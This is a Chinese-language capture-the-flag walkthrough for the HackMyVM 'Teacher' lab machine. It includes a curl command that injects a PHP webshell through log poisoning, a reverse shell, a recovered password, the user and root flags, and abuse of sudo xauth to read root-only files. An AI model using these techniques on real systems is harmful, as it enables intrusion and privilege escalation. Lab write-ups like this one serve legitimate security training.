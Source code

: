 # Teacher

2025.03.24 https://hackmyvm.eu/machines/machine.php?vm=Teacher

[video](https://www.bilibili.com/video/BV1EKo2YyEdi/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 扫描发现 access.php log.php clearlogs.php 这 3 个页面，access.php 访问是空页面，ffuf 探测一下可能的请求参数，发现是 id，在访问 access.php?id=/etc/passwd 后，log.php 页面上会显示访问的参数值，这里可以通过 access.php 写入 webshell，然后通过访问 log.php 进行反弹:

```
curl -G --data-urlencode 'id=<?php system($_GET[1]);?>' 'http://192.168.5.39'
```

获得反弹 shell，在/var/www/html 中发现一个奇怪名的 pdf e14e1598b4271d8449e7fcda302b7975.pdf 下载到 kali 上，查看，可以看到 PASS=ThankYouTeachers 文件的所属用户是 mrteacher 应该就是它的用户密码。

切换到 mrteacher ，拿到了 user flag:

```
www-data@Teacher:/home/mrteacher$ cat user
9cd1f0b79d9474714c5a29214ec839a6
```

sudo -l 显示(ALL : ALL) NOPASSWD: /bin/gedit, /bin/xauth

使用 xauth 命令进入交互模式，source 可以读取文件, 读取 root flag：

```
xauth> source /root/root
/bin/xauth: /root/root:1:  unknown command "HappyBack2Sch00l"
```

当然也可以通过 X11 协议，打开 gedit 的窗口，可以直接读取和修改文件。
